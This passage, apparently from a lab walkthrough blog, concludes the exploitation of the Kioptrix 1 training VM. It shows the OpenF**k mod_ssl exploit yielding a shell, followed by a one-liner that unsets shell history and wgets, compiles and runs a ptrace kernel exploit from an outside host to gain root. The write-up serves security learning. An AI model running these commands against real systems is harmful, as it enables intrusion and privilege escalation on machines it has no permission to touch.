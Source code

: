 ```console
```

Since the VM's Apache Version is 1.3.20, I will select __0x6b__ as our __target__. You can see a list of the target coes from the exploit's usageoutput, but I redacted here to save some space.

Now that we know our target version, the IP, and HTTP Port - let's go ahead and run the exploit!

```console
root@kali:~# ./OpenF**k 0x6b 192.168.1.104 443 -c 40

*******************************************************************
* OpenF**k v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
bash-2.05$ unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 
--01:29:33--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--01:29:33--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.87 MB/s

01:29:33 (1.87 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 1418
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
```

## Closing:
And there we have it! We exploited Kioptrix 1 with a well-known vulnerability and got root!

This VM in all honesty was pretty easy in terms of complexity since its main objective was to teach you the basics in tool usage and exploitation. There are 4 more levels in this series, and it just gets harder and more complex from here. So strap in and stay tuned for more!

Thanks for reading!

